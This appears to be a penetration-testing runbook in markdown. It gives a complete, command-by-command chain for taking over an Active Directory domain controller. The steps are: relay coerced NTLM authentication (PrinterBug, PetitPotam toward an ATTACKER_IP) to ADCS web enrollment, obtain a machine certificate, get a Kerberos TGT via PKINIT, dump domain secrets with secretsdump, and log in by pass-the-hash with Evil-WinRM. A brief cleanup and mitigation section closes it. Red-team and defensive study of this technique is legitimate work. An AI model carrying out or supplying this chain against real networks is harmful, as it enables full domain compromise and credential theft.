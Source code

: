 ```yaml
---
title: "ADCS Relay → PKINIT TGT → DC Compromise"
category: runbook
tags: [active-directory, adcs, relay, petitpotam, printerbug, pkinit, kerberoast, impacket]
---
```


# ADCS Relay → Machine Cert → PKINIT TGT → DC Compromise

**TL;DR**  
Abuse an AD CS HTTP enrollment endpoint by relaying NTLM from a domain member (ideally the DC computer account) to request a machine certificate. Use **PKINIT** with that cert to obtain a Kerberos **TGT** for the machine account, then leverage the TGT to dump secrets and pivot to full domain compromise.

---

## Goal
- Relay coerced NTLM auth to ADCS (`/certsrv/`), enroll a **machine certificate** for `DC01$`.
- Use **PKINITtools** to get a **TGT** for `DC01$` and confirm via `klist`.
- Use **Impacket** (Kerberos auth, no password) to dump domain secrets; pivot to **Evil‑WinRM** with PTH.

## Assumptions & Prereqs
- ADCS Web Enrollment (or vulnerable ESC8-like relay path) reachable at `http(s)://ca.domain.local/certsrv/`.
- You can coerce authentication from **DC01** (or another privileged computer account) to your **ntlmrelayx** listener (e.g., **PrinterBug**, **PetitPotam**, DFSCoerce).  
- Attacker host has: Python 3, **Impacket**, **PKINITtools**, and (if needed) **oscrypto** fixed for ECC/PKI.
- Time is in sync enough for Kerberos.

**Network**
```
Attacker (10.10.x.x)  <—NTLM—  DC01  —HTTP(S)—> ADCS /certsrv
           |                          ^ (relay via ntlmrelayx)
           +— Kerberos (PKINIT) —> KDC (DC01 or other DC)
```

---

## High-Level Flow
1) Start **ntlmrelayx** targeting the ADCS enrollment endpoint.  
2) Trigger **coercion** from DC to attacker → relay to ADCS.  
3) Receive `.pfx` for `DC01$` (machine cert).  
4) Use `gettgtpkinit.py` to get a **TGT** (ccache).  
5) Export ticket (KRB5CCNAME), verify with `klist`.  
6) Use `secretsdump.py -k -no-pass` to dump Administrator hash / DIT.  
7) **Evil‑WinRM** pass‑the‑hash to prove access.

---

## Commands — End‑to‑End

### 0) Prep
```bash
python3 -m pip install impacket
# PKINITtools + oscrypto fix depending on env (build/install as needed)
```

### 1) Relay to ADCS
```bash
# Common: specify target ADCS web enrollment endpoint
# If HTTPS w/ NTLM enabled on /certsrv, point at it explicitly
ntlmrelayx.py \
  -t http://ca.domain.local/certsrv/ \
  --adcs \
  --template Machine \
  --outfile DC01.pfx \
  -smb2support
```
> **Note:** Adjust template (e.g., `Machine` / `User`) and CA URL to match. Use `--no-smb2support` if environment breaks with SMB2.

### 2) Coerce DC authentication (choose one)
```bash
# PrinterBug (requires RPC to print spooler)
printerbug.py DOMAIN/DC01$@dc01.domain.local ATTACKER_IP

# PetitPotam (EFSRPC)
PetitPotam.py -d DOMAIN -u user -p pass ATTACKER_IP dc01.domain.local
```
> Any working coercion path is fine; goal is an inbound NTLM you can relay to ADCS.

### 3) You should receive a PFX
`ntlmrelayx` will save a `.pfx` (e.g., `DC01.pfx`). If it’s password‑protected, note the password from relay output.

### 4) Use PKINIT to get TGT
```bash
# Using dirkjanm/PKINITtools
python3 gettgtpkinit.py DOMAIN/DC01\$@DOMAIN.LOCAL \
  -pfx-base64 $(base64 -w0 DC01.pfx) \
  -dc-ip DC_IP \
  dc01.ccache

# Alternative with explicit files
python3 gettgtpkinit.py DOMAIN/DC01\$@DOMAIN.LOCAL \
  -cert-pfx DC01.pfx -pfx-pass <PFX_PASS> \
  -dc-ip DC_IP \
  dc01.ccache
```

### 5) Load & verify ticket
```bash
export KRB5CCNAME=$(pwd)/dc01.ccache
klist
```

### 6) Dump secrets over Kerberos (no pass)
```bash
# Dump Administrator (just DC user) or full DIT
secretsdump.py -k -no-pass -dc-ip DC_IP -just-dc-user Administrator \
  'DOMAIN/DC01$'@dc01.domain.local

# Or DCSync
secretsdump.py -k -no-pass -just-dc DOMAIN/Administrator@dc01.domain.local
```

### 7) Prove access (WinRM PTH)
```bash
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```

---

## Checks & Troubleshooting
- **Relay fails / 401 loop**: ADCS may not accept NTLM on `/certsrv/` or requires SSL. Try `https://` and confirm ESC1/ESC8 conditions.
- **Template denied**: You need a template that allows **enrollment** for machine accounts (e.g., `Machine`). Check template issuance policy.
- **PKINIT fails**: Ensure time sync, CA chain trust, and correct `DOMAIN/DC01$` UPN format.
- **Kerberos env**: Confirm `KRB5CCNAME` is exported and `klist` shows the machine TGT.

## Safety & Cleanup
- Remove `.pfx` and ccache artifacts from shared systems.  
- In labs, snapshot/rollback. In production tests, follow ROE, report precisely which template/endpoint was abused and mitigations (disable NTLM on `/certsrv/`, restrict templates, require Manager Approval, enforce EKUs, audit coercion paths).

---

## Tools (for reference)
- Impacket (`ntlmrelayx.py`, `secretsdump.py`)
- PKINITtools (`gettgtpkinit.py`)
- Coercion: PrinterBug, PetitPotam, DFSCoerce (as applicable)
- Evil‑WinRM (operator access verification)

